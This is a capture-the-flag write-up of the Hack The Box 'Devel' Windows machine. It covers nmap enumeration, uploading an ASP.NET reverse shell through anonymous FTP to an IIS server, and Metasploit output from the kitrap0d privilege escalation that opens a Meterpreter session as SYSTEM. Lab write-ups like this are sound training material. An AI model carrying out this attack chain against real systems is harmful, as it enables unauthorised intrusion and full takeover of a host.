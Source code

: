 ```yaml
---
layout: post
title: Devel
date: 2020-03-30
author: the-bilal-rizwan
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Devel writeup

Easy Windows machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/main.png)


Let's do a quick nmap all ports

```perl

Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 09:54 EDT
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds

```

<br>

### Enumeration

- Found that ftp anonymous login was allowed and using that I could upload files on to the IIS server web directory which in simpler words mean a shell.
- I used the InsomniaShell shell which can be found here `https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/`


![user shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/ushell.png)

I upgraded the normal shell to meterpreter and used local exploit usggester to see if I can priv esec.



![local_exploit_suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/exploitsuggest.png)



### Exploitation

Used the ms10-015 exploit and got Nt authority

```perl

msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.3:555 
[*] Launching notepad to host the exploit...
[+] Process 3444 launched.
[*] Reflectively injecting the exploit DLL into 3444...
[*] Injecting exploit into 3444 ...
[*] Exploit injected. Injecting payload into 3444...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.3:555 -> 10.10.10.5:49159) at 2020-03-30 14:05:32 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 


```
